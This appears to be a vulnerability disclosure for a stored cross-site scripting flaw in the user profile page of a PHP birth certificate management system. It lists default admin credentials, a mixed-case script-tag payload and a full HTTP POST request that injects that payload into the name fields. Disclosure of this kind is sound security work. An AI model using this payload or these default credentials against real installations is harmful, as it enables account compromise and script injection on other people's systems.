 # Online Birth Certificate Management System - XSS

A vulnerability classified as problematic was found in Online Birth Certificate Management System . This vulnerability affects unknown code. The manipulation of the argument profile.php leads to cross site scripting. The attack can be initiated remotely.

username:admin password:admin123 ----> {ip}/user/profile.php

Supplier： https://www.sourcecodester.com/php/15683/online-birth-certificate-management-system-php-free-download.html

/user/profile.php has XSS

> Payload: <sCrIpT>alert(1)</sCrIpT>

XSS because `$sdata` can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-28/7.png)

## Payload

```sql
POST http://127.0.0.1/CVE/OBCMS/user/profile.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 92
Cache-Control: max-age=0
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="94"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/CVE/OBCMS/user/profile.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=4okk1vi8496nglrc7ut709vl37
Connection: close

fname=admin1	<ScRiPt>alert(1)</sCrIpT>&lname=admin1<ScRiPt>alert(1)</sCrIpT>&add=1@QQ.com&submit=
```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-28/4.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-28/5.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-28/6.png)